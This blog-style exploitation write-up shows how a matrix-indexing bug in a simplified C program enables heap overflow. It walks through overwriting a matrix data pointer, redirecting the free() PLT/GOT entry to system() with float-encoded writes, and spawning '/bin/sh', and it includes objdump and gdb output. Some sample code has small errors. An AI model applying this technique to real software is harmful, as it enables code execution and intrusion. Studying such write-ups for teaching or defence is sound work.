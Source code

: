 ```yaml
---
layout: post
title: A Tale of Indices
tags: exploit c-cpp
excerpt: Exploting bad indexing code to mess with malloc and the PLT
---
```


This is the story of how bad indexing code can lead to an exploit. Even though
this is on the heap, most of it doesn't actually involve malloc that much, but
relies on a specific feature of it: memory blocks are adjacent. However, it does
involve messing with the plt!

<!--more-->

# A Wild Bug Appears

First, the code. This is not exactly the original code, but simplified quite a
bit (removing the input logic, much checking and other functionality).

``` c
struct matrix
{
	int rows, cols;
	float* data; // allocated in the heap, has rows * cols floats
};

struct matrix* matrices[64]; // each matrix is allocated in the heap

float* get_addr(int id, int row, int col)
{
	// assume these values have been checked and are in range
	return &matrices[id]->data[row * mat->rows + col];
}

float get(int id, int row, int col)
{
	return *get_addr(id, row, col);
}

void set(int id, int row, int col, int val)
{
	*get_addr(id, row, call) = val;
}

int allocate(int rows, int cols)
{
	int id = get_free_id(); // logic somewhere else
	matrices[id] = malloc(sizeof(struct matrix));
	matrices[id]->rows = rows;
	matrices[id]->cols = cols;
	matrices[id]->data = calloc(sizeof(float) * rows * cols);
}

void release(int id)
{
	free(matrices[id]->data);
	free(matrices[id]);
	matrices[id] = 0;
}
```

Can you find the bug? Hint: it's in `get_addr`. The matrix indexing is
incorrect, it should be `row * mat->cols + col`. See the difference? This
overflow is what allows the shell to be spawned.

# A note on float conversion

In this program, memory is only accessible as floats. While inconvenient, this
is still usable as floats also take up the same space as ints, 4 bytes. With
enough digits, we can be guaranteed to get an identical value when we set it. To
find this value, we can use a union:

``` c
int main()
{
	union {
		int a;
		float b;
	};
	// set a or b here
	// e.g. a = 0x100
	printf("%8x %.9g", a, b);
}
```

Later on, we'll also write strings. Since the system is little endian (x86), we
just use the characters' ASCII value, in reverse order (for each 4-byte chunk).

# Exploit Preparation

Firstly, a bit on `malloc()`. It obtains memory from the system (usually via
`mmap()`), and divides it up into chunks. These are then allocated when
requested by the programmer. Since the block given is the first that fit the
size, this results in the matrices and their descriptors being allocated right
next to each other:

``` raw
+-------------+-------------------+-------------+-------------------+
| (sz) | mat1 | (sz) | mat1->data | (sz) | mat2 | (sz) | mat2->data |
+-------------+-------------------+-------------+-------------------+
```
As a result, we can exploit the bad indexing to overwrite the matrix descriptor
(in this case mat2) from the previous data block (mat1->data). Through this, we
can overwrite the data pointer of mat2 to whatever we want, allowing us to write
to any location in memory. One potential target is the plt (procedural link
table), which lists the location of functions of dynamically loaded libraries
(e.g. libc). However, one specific entry is of interest - `free()`. When
matrices are released, this is called on user-editable data, and with that as
the only argument. `system()` also takes a pointer as a single argument!

However, there is a problem: dynamic libraries can be loaded anywhere, and so
can `system()`. However, it is always at the same offset from `free()`, and we
can use that, along with the existing plt entry to calculate the position of
`system()`.

# Actual Exploit

First, we need to get some information:

``` raw
$ objdump -R matrix | grep free
0804a10c R_386_JUMP_SLOT   free
$ gdb -q matrix
Reading symbols from matrix...(no debugging symbols found)...done.
(gdb) p __libc_system - __libc_free
$1 = -228656
```

Now, we perform the actual exploit. First, we create 2 matrices which have more
rows than columns (e.g. 8*7). We then create and release another matrix. This is
required to initialize the plt entry to the actual location of `free()`
(`__libc_free()`), from which we can figure out the location of `system()` using
the offset. We now can use the overflowing get_addr logic to overwrite mat2's
data pointer to point to 0x0804a10c (the address of the plt entry).

``` c
allocate(8, 7); // id 0
allocate(8, 7); // id 1
allocate(1, 1); // id 2
release(2);
```

Now, how do we figure out where to write to overwrite that pointer? Since it's
the last element of the struct, we search down from the top, until we get to the
second non-zero value. Why second? Because the first would be the size of the
next block, and we have no need overwriting that. From my tests, it appears that
with an 8*7 matrix, the value is located at [7,4], which we overwrite with the
float equivalent of 0x0804a10c.

``` c
set(0, 7, 4, 3.991161479e-34); // mat[7][4] = 0x0804a10c
```

Then, we can get the current value of the plt entry, which would be the address
of `__libc_free()`. We can add the offset (-228656) to this to get the address
of `__libc_system()` and overwrite the exiting value with this.

``` c
get(1, 0, 0); // returns -4.468552546e+33 == 0xf75c5110
set(1, 0, 0, -4.397786941e+33); // mat[0][0] = 0xf758d3e0 == (0xf75c5110 - 228656)
```

Now that we have overwritten `free()`, we can write the payload, which is
"/bin/sh" (you can use any command here though). And we execute the command by
freeing that matrix.

``` c
set(0, 0, 0, 1.805717599e+28); // mat[0][0] = 0x6e69622f == '/bin'
set(0, 0, 1, 9.592211688e-39); // mat[0][0] = 0x0068732f == '/sh\0'
release(0);
$
```

Shell!
